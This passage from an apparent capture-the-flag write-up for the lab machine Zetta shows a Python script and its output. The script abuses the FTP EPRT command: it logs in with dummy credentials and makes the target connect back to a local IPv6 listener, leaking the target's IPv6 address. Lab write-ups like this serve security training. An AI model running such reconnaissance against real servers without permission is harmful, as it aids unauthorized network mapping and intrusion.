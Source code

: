     
    
    #!/usr/bin/env python3
    
    import random
    import netifaces
    import socket
    
    
    port = random.randint(2000,10000)
    print(f'[*] Generated random listen port: {port}')
    
    print(f'[*] Starting listener on ::{port}')
    v6listener = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
    v6listener.bind(('::', port))
    v6listener.listen()
    
    myv6 = netifaces.ifaddresses('tun0')[10][0]['addr']
    print(f'[*] Local IPv6 address: {myv6}')
    
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        print('[*] Connecting to Zetta 10.10.10.156:21')
        s.connect(('10.10.10.156', 21))
        print('[+] Connected\n[*] Waiting 10 seconds for FTP MOTD')
        s.send(b'\n')
        s.recv(2048)
        print('[*] Logging in')
        s.send(f'USER {"A"*32}\n'.encode())
        s.recv(2048)
        s.send(f'PASS {"A"*32}\n'.encode())
        s.recv(2048)
        eprt_str = f'EPRT |2|{myv6}|{port}'
        print(f'[+] Authenticated\n[*] Sending {eprt_str}')
        s.send(f'{eprt_str}\nLIST\n'.encode())
        s.recv(2048)
        conn, addr = v6listener.accept()
        s.recv(2048)
    v6listener.close()
    conn.close()
    print(f'[+] Got IPv6 for Zetta:\n{addr[0]}')
    

Script will return the IPv6:

    
    
    root@kali# ./get_ipv6.py 
    [*] Generated random listen port: 4686
    [*] Starting listener on ::4686
    [*] Local IPv6 address: dead:beef:2::1009
    [*] Connecting to Zetta 10.10.10.156:21
    [+] Connected
    [*] Waiting 10 seconds for FTP MOTD
    [*] Logging in
    [+] Authenticated
    [*] Sending EPRT |2|dead:beef:2::1009|4686
    [+] Got IPv6 for Zetta:
    dead:beef::250:56ff:feb9:7e7c
    